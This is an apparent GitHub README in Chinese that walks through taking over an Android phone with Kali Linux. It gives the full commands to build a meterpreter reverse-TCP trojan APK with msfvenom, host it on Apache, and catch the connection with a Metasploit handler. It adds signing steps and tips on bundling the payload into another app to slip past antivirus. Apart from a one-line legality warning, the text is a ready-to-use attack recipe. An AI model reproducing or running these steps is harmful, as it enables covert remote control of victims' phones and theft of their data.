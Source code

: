 # 使用Kali入侵安卓手机
# 未经容许的入侵是违法行为！！！请不要随意模仿！！！
步骤：
1. SSH连接上kali<br>
![图像_2021-08-19_182808](https://user-images.githubusercontent.com/71908235/130053586-a06330ed-4068-409d-91dd-afdc25cb422b.png)
2. 生成一个木马apk 命令：msfvenom -p android/meterpreter/reverse_tcp LHOST=这里填kali的IP地址 LPOST=8888 R > app.apk<br>
4. 输入service apache2 start开启服务器服务，再输入sudo cp app.apk /var/www/html将生成的apk文件复制到html文件夹下，然后执行rm /var/www/html/index.html删除掉自带的网页<br>
![图像_2021-08-19_184536](https://user-images.githubusercontent.com/71908235/130055912-8b0e36ef-549f-403a-84f9-ee3ebe2c3271.png)<br>
5. 打开msfconsole（直接粘贴至控制台即可），等待到">"字样出现时继续操作<br>
![图像_2021-08-19_184838](https://user-images.githubusercontent.com/71908235/130056307-6e614687-508a-4182-b686-fe3f4b7e076f.png)
6. 输入use exploit/multi/handler<br>
![图像_2021-08-19_185337](https://user-images.githubusercontent.com/71908235/130056841-85082b3f-a0f4-4bcf-86d5-13a16626c9c9.png)
7. 输入set payload android/meterpreter/reverse_tcp<br>
![图像_2021-08-19_190033](https://user-images.githubusercontent.com/71908235/130057714-9e8f20b2-6fea-4bda-881c-6ef160118e05.png)
8. 输入options，发现HOST和PORT没有设置，设置host和post未创建apk时的IP地址和端口：<br>
![图像_2021-08-19_190220](https://user-images.githubusercontent.com/71908235/130057928-3c2aae58-cf13-4a67-aea4-079be575286d.png)
[![fqVcSH.png](https://z3.ax1x.com/2021/08/19/fqVcSH.png)](https://imgtu.com/i/fqVcSH)
9. 输入exploit开启监听出现Started reverse TCP handler on 时就成功开启了<br>
[![fqVzkT.png](https://z3.ax1x.com/2021/08/19/fqVzkT.png)](https://imgtu.com/i/fqVzkT)
10. 在靶机上访问Kali的IP地址，找到app.apk然后就可以在Kali上控制手机了<br>
<br>
注：
1. 可以使用zipalign对apk进行对齐 zipalign -v 4 text.apk text1.apk
2. 可以生成密钥对 例如 keytool -genkey -v -keystore cg.keystore -alias cg -keyalg RSA -keysize 2048 -validity 10000  模板keytool -genkeypair -keystore 密钥库名 -alias 密钥别名 -validity 天数 -keyalg RSA
3. 可以对apk签名 例如 apksigner sign --ks cg.keystore --ks-key-alias cg text1.apk 模板apksigner sign --ks 密钥库名 --ks-key-alias 密钥别名 text1.apk
4. 可以对apk进行签名验证apksigner verify -v --print-certs text1.apk
还有：直接使用msfvenom生成的裸马，过不了免杀，版本也低，安装不了，捆绑是最简单的，然后做好签名优化就行
